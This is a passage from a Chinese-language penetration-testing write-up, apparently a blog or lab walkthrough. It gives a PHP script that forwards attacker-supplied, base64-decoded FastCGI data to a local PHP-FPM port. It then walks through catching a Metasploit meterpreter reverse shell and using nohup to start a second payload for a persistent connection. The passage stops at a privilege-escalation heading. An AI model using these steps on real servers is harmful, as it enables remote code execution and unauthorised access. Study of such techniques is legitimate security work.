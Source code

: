 ```php
        print_r($e);
    }
    fclose($fp);
}
```

如果是监听本地 `9000` 端口，可以使用 `fsockopen` 协议来发送 fastcgi 协议数据，具体就是：
```php
<?php
ini_set("display_errors", "On");
error_reporting(E_ALL);

$fp = fsockopen("127.0.0.1", 9000, $errno, $errstr, 30);
$url = $_GET['url'];

if (!$fp) {
    echo "Error: $errstr ($errno)<br />\n";
} else {
	try {
	    fwrite($fp, base64_decode($_GET['url']));
		var_dump(fread($fp, 8192));
	} catch (Exception $e) {
		print_r($e);
	}
    fclose($fp);
}
```

然后打开 `msfconsole` 开启反向连接监听：

![msf-listen-reverse-tcp](https://img-blog.csdnimg.cn/290fa18c63d24ee2bcabc4a7a1ac83a0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA55Gd55Cm,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

然后本地用浏览器访问一下服务器中的发送 fastcgi 的 php 程序，并凭借上要发送的数据：

![front-msf-reverse-link](https://img-blog.csdnimg.cn/eeb5e14d4c33489597a8da4d03ca7725.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA55Gd55Cm,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

正常情况页面会持续加载中，然后 msf 这边就会收到连接请求并进入 `meterpreter shell`，然后看一下系统信息，nice，直接进入 `shell` 进行下一步操作：

![msf-meter-sysinfo](https://img-blog.csdnimg.cn/9c15cb50123d4937ae6885d0fa918403.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA55Gd55Cm,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

因为之前说这里的 php 建立的连接只有不到一分钟时间，`.so` 文件执行的指令也不例外，所以这里就到了**争分夺秒**考验手速的时刻了，先断开连接待会重来，然后这次需要准备第二个 `payload` 传到同目录下，为了节省时间可以在第一次连接前以后台任务运行（`run -j`）`meterpreter` 反向监听，这样就不会浪费时间再去切换 `module` 和设置 `payload` 再运行了：

![msf-run-meter-job](https://img-blog.csdnimg.cn/19a345aab60d4ab29da66cc7bc33ebaf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA55Gd55Cm,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

在网页请求后建立第一个 `payload` 连接，然后迅速进入 `shell` 执行一个 `nohup` 后台任务来运行刚才上传的第二个 `payload`：

![msf-link-payload-2](https://img-blog.csdnimg.cn/20f6d91c48114731b4de924525a13804.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA55Gd55Cm,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

不出意外第二个 `payload` 的监听任务就会建立连接，并且是持续的**长连接**，第一个连接关掉也无所谓，后面就能愉快地进行其他操作了 (ง •_•)ง


## Linux 提权（Privilege Escalation）
